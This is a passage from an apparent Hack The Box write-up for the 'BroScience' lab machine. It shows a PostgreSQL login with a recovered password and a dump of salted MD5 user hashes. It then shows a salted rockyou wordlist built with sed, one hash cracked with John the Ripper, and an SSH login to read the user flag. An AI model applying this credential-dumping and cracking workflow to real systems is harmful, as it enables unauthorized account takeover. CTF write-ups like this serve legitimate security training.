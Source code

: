 ```postgresql
www-data@broscience:/var/www$ psql -h localhost -d broscience -U dbuser
psql -h localhost -d broscience -U dbuser
Password for user dbuser: RangeOfMotion%777

\dt
           List of relations
 Schema |   Name    | Type  |  Owner   
--------+-----------+-------+----------
 public | comments  | table | postgres
 public | exercises | table | postgres
 public | users     | table | postgres

select * from users;
 id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created          
----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
  1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
  2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
  3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
  4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
  5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
(5 rows)
```

Before I can crack these passwords I need to add the salt from the database. It is cleverly "NaCl" and I need to create a new rockyou list with this at the front.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/BroScience]
└──╼ $sed 's/^/NaCl/' /opt/wordlists/rockyou.txt > saltyou.txt
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/BroScience]
└──╼ $john -w:saltyou.txt brohash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
NaCliluvhorsesandgym (bill)
1g 0:00:00:00 DONE (2023-02-26 19:44) 2.127g/s 15683Kp/s 15683Kc/s 15683KC/s NaCliluvhs..NaCliluvhim1994
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/BroScience]
└──╼ $ssh bill@broscience.htb
.....
bill@broscience:~$ cat user.txt
bf1a81a89b627-------------------
```
